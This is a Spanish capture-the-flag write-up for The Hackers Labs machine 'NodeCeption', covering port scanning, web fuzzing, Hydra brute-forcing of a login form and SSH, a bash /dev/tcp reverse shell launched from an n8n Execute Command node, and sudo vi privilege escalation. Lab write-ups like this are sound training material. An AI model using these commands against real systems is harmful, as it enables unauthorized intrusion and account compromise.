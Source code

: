 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackersLabs
  - Easy
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Burp Suite|Burp Suite]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]
		- [[#Escalada de Privilegios#Hydra|Hydra]]
		- [[#Escalada de Privilegios#SSH|SSH]]

---
# Resolviendo la máquina NodeCeption

>En esta publicación, comparto cómo revolví la máquina **NodeCeption** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/118).

![](Screenshots/Pasted%20image%2020251026084159.png)

---
## Enumeración
### Ping

`ping -c 1 192.168.1.184`

![](Screenshots/Pasted%20image%2020251026085149.png)

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -sS -vvv -n -Pn 192.168.1.184 -oG allPorts`

![](Screenshots/Pasted%20image%2020251026085310.png)

`nmap -p22,5678,8765 -sCV 192.168.1.184 -oN targeted`

![](Screenshots/Pasted%20image%2020251026085347.png)
![](Screenshots/Pasted%20image%2020251026085408.png)
### HTTP

`http://192.168.1.184:8765/`

![](Screenshots/Pasted%20image%2020251026085533.png)

![](Screenshots/Pasted%20image%2020251026085608.png)

Se encuentra el usuario `usuario@maildelctf.com`.
#### Fuzzing Web

`gobuster dir -u http://192.168.1.184:8765 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt -t 64`

![](Screenshots/Pasted%20image%2020251026085944.png)

`192.168.1.184:8765/login.php`

![](Screenshots/Pasted%20image%2020251026090143.png)

---
## Explotación
### Burp Suite

Para poder realizar fuerza bruta, es necesario ver como viaje la petición **POST**.

![](Screenshots/Pasted%20image%2020251026090645.png)
### Hydra

Se procede a realizar fuerza bruta.

`hydra -l usuario@maildelctf.com -P /usr/share/wordlists/rockyou.txt -s 8765 192.168.1.184 http-post-form "/login.php:email=usuario@maildelctf.com&password=^PASS^:Credenciales incorrectas."`

![](Screenshots/Pasted%20image%2020251026091054.png)

Se obtiene la contraseña del usuario `usuario@maildelctf.com`.

Se inicia sesión en la web.

![](Screenshots/Pasted%20image%2020251026091149.png)
### Reverse Shell

Se accede a *n8n*.

`http://192.168.1.184:5678`

![](Screenshots/Pasted%20image%2020251026091320.png)

Se inicia sesión con el usuario y la contraseña obtenidos anteriormente.

![](Screenshots/Pasted%20image%2020251026091410.png)

Se crea un nuevo *Workflow*, para realizar la *Reverse Shell*.

Para poder ejecutar un comando se busca: `Execute Command`.

![](Screenshots/Pasted%20image%2020251026091551.png)

![](Screenshots/Pasted%20image%2020251026091611.png)

Nos ponemos en escucha por el puerto `1234` para recibir la *Reverse Shell*.

`nc -nlvp 1234 `

Se ejecuta el comando `bash -c 'exec bash -i &>/dev/tcp/192.168.1.127/1234 <&1'` para lanzarla.

![](Screenshots/Pasted%20image%2020251026092422.png)
### Escalada de Privilegios
#### Sudo

`sudo -l`

![](Screenshots/Pasted%20image%2020251026092722.png)

Se realiza una búsqueda del binario: `a` en [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo).

![](Screenshots/Pasted%20image%2020251026093447.png)

`sudo vi -c ':!/bin/sh' /dev/null`

![](Screenshots/Pasted%20image%2020251026093838.png)

Es necesario meter la contraseña de un usuario.

Se averigua el usuario: `cat /etc/passwd`.

![](Screenshots/Pasted%20image%2020251026093950.png)
#### Hydra

Al saber el usuario `thl` se procede a realizar fuerza bruta para saber la contraseña y conectarnos mediante **SSH**.

`hydra -l thl -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.184 -t 64`

![](Screenshots/Pasted%20image%2020251026094900.png)

Se encuentra la contraseña para el usuario `thl`.
#### SSH

Nos conectamos al servicio **SSH**.

`ssh thl@192.168.1.184`

![](Screenshots/Pasted%20image%2020251026095039.png)

`sudo vi -c ':!/bin/sh' /dev/null`

![](Screenshots/Pasted%20image%2020251026095149.png)

---